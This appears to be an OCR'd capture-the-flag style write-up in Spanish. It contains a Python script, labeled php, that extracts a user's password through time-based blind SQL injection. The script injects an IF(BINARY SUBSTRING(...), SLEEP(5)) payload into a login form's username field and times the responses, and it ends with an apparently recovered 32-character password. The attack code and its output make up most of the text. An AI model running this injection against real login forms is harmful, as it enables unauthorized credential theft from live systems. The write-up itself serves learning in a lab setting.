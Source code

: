 ```php
def check_character(position, character):
    # Inyección SQL para verificar si el carácter en la posición es correcto
    payload = f"{known_username}\\" AND IF(BINARY SUBSTRING(password, {position}, 1) = '{character}', SLEEP(5), 0) #"
    
    
    # Datos de la solicitud
    data = {'username': payload, 'password': 'dummy_password'}

    # Medir el tiempo de respuesta
    start_time = time.time()
    response = requests.post(url, data=data, auth=HTTPBasicAuth(username, password))
    end_time = time.time()

    # Verificar si hubo un retraso (indica que el carácter es correcto)
    return end_time - start_time > 4  # Ajuste de umbral en segundos

# Proceso de exfiltración
print(f"Extrayendo contraseña para el usuario: {known_username}")

for position in range(1, 33):  # Supongamos que la contraseña tiene una longitud máxima de 32 caracteres
    found = False
    for char in possible_chars:
        if check_character(position, char):
            extracted_password += char
            print(f"Posición {position}: {char}")
            found = True
            break
    if not found:
        print("Fin de la contraseña alcanzado.")
        break

print(f"Contraseña extraída: {extracted_password}")

```

* **`auth` en `requests.post`**: Añadimos `auth=HTTPBasicAuth(username, password)` a la solicitud `requests.post`, lo cual permite que el script se autentique en el servidor usando las credenciales conocidas (`username` y `password`).
* **Parámetro `username` y `password`**: Define estos valores al inicio del script para las credenciales de autenticación HTTP básica.
* **Condicional `BINARY` en SQL**: Usamos `BINARY` en la consulta SQL para que sea sensible a mayúsculas y minúsculas, lo que permite diferenciar entre `a` y `A`.

Output: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ


